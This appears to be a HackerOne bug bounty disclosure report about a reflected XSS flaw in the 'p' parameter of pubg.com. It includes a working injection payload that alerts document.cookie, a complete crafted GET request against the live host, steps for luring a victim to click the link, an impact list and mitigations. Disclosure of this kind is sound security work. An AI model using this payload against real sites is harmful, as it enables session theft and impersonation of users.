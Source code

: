 # HackerOne Vulnerability Report - Reflected XSS in pubg.com

![hackerone](https://i.imgur.com/vN8sOrp.png)

[HackerOne Report Link](https://hackerone.com/reports/751870)


## Affected asset(s)

* https://www.pubg.com/

## Description

PUBG's main website https://www.pubg.com has an endpoint that is vulnerable to an injection vulnerability - namely a reflected injection of JavaScript, also known as Reflected Cross Site Scripting (XSS). As per OWASP's definition: "Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. "
This happens because one of the GET parameters "p" does not properly sanitize/escape user input, allowing an injection to occur.

## Proof of Concept
[Video Link](https://youtu.be/sDINhDEgp48)

<img src="https://i.imgur.com/sgdpR47.gif" alt="alt text" width="1000" height="600">

## Steps to reproduce

To reproduce this, an attacker has to:

 * **Step 1)** Prepare a Javascript payload that it wants the victim to execute. In this case, for Proof of Concept purposes, our Javascript code will prompt an alert showing the users' cookies.

```javascript
alert(document.cookie);
```

 * **Step 2)** Inject this Javascript code properly into the vulnerable parameter, creating thus a crafted future GET request that will inject the payload.
 
 ```get_request
 GET /?p=iqz78'%3e%3cimg%20src%3da%20onerror%3dalert(document.cookie)%3d1%3echplq HTTP/1.1
Host: www.pubg.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: https://www.pubg.com/es/feed/
Cookie: _icl_current_language=en; _icl_visitor_lang_js=en-us; wpml_browser_redirect_test=0; __cfduid=de74423d435717d651b1c9e2c63f4acc21575460678
 ```
 
 Request PoC
 
 ![Request](https://i.imgur.com/EkxbL5n.png)
 
  * **Step 3)** As this injection happens in a GET parameter, the attacker simply needs to send the crafted Link that produces this GET request to the victim and have the victim click it.
  
  Injection demonstration
  
  ![Request](https://i.imgur.com/J7FYcXk.png)
  
  ## Impact
  
With user interaction, an attacker could execute arbitrary Javascript code in a victim's browser.

This would allow an attacker to unwillingly make a victim:
 * Perform any action in the identified endpoint
 * View any information that the user is able to view
 * Modify any information that the user is able to modify (not sure if applicable in this case)
 * Interact with other application users as if it were him - impersonation (not sure if applicable in this case)
 
 ## Mitigation
 
 * Sanitize inputs if they are reflected into the html rending
 * Use X-XSS-Protection HTTP headers
 
 [Reference](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
